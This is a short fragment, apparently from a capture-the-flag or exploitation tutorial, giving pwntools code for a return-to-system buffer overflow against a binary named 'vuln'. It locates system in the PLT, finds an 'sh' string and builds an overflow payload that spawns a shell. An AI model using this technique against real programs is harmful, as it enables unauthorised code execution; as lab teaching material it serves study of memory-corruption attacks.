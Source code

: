 # We can find address of 'system' in PLT, since it's used in the binary:
```
elf = ELF("./vuln")
system_plt_addr = elf.plt.system
```

# Find the sh string:
```
sh_addr = next(elf.search(b'sh\x00'))
```

# Send payload:

```
payload = flat(
    'A' * 0x44,
    elf.plt['system'],
    'x' * 4,
    sh_addr
)
```